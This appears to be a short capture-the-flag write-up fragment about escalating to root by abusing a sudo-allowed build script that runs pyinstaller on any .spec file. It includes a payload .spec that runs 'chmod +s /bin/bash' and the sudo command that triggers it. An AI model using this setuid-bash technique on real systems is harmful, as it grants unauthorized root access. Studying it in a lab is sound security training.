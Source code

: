 ```bash
if [[ $action == 'build' ]]; then
  if [[ $ext == 'spec' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi
```

We see, we can run `/home/svc/.local/bin/pyinstaller <any .spec file>`

So crate this file

```python
import os
os.system("chmod +s /bin/bash")
```

- `sudo /usr/local/sbin/build-installer.sh build /dev/shm/run.spec`

The root run the code in this file!

→ root.txt
